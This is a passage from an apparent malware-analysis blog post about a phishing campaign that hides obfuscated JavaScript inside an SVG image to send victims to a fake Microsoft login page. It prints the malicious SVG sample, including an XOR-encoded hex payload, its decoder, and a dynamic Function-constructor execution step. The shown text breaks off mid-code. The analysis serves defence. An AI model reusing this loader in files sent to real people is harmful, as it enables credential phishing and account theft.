 ```yaml
---
title: "Abusing CDATA: Obfuscated JavaScript in SVG Phishing Attacks"
published: 2025-07-06
updated: 2025-07-06
description: "Analyzing a real-world phishing technique where a harmless-looking SVG image hides malicious JavaScript in plain sight."
image: "posts/Obfuscated-JS-in-CDATA/0.png"
tags: [Malware Analysis, Reverse Engineering]
category: "Scripted Malware"
draft: false
---
```


In this blog, we’ll dive deep into a **real-world phishing campaign** that leverages an unexpected vector — **SVG images**.

While SVGs are typically used for scalable graphics on websites, they also support embedded **JavaScript**, making them a sneaky way to smuggle malicious code. We’ll analyze one such SVG file sent via a targeted phishing email that executes a **JavaScript-based redirect to a fake Microsoft login page**, enabling an **Adversary-in-the-Middle (AiTM)** attack.

Let’s get started

## How attackers are now using **SVG images with embedded JavaScript**

When we talk about SVG, we're referring to Scalable Vector Graphics — an XML-based format used for vector images that also supports animation.

But here's something interesting: SVGs can also embed HTML elements and JavaScript. That’s why you've probably seen them pop up in bug bounty reports, especially in file upload XSS scenarios.

Today, we're going to explore something even more sneaky — how JavaScript inside an SVG can be used to trick a user into logging in through a fake Microsoft URL.

The SVG file I’ll walk you through was actually sent as part of a targeted phishing email. Let's dive into how it works.

```js
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="250">
<script>
<![CDATA[
w = "dGVzdEB0ZXN0LmNvbQ=="; // I have changed it to have test email

(() => {
    const V = "3656af0dc9c4726f82de61fa", R = "445f5b520e111e080c5a02405e5d584850400103160c46004759571e43077846481b31041519140570104f427b07414a537a4c564a41090c4412445159151d417248434e147c354318140007434d50050e5948540200564d1f680a421d162810141d127a0c411b463543411f577e07061310222b141a443459141e113311174f03632b541c157b561f19463470134d436142171d46045d43481e104d101914077b104f050e5a064818410e";
    const j = (Z, t) => {
        let o = [];
        for (let H = 0; H < Z.length; H += 2) {
            const l = (parseInt(Z[H], 16) << 4) | parseInt(Z[H + 1], 16);
            o.push(String.fromCharCode(l ^ t.charCodeAt(Math.floor(H / 2) % t.length)));
        }
        return o.join('');
    };
    const Q = j(R, V); 
    const S = (() => {
        const B = [70, 117, 110, 99, 116, 105, 111, 110].map(E => String.fromCharCode(E)).join('');
        let A; try { A = new Function('return this')(); } catch (e) { A = new Function('return global')(); }
        return A[B];
    })();
    const I = new WeakMap();
```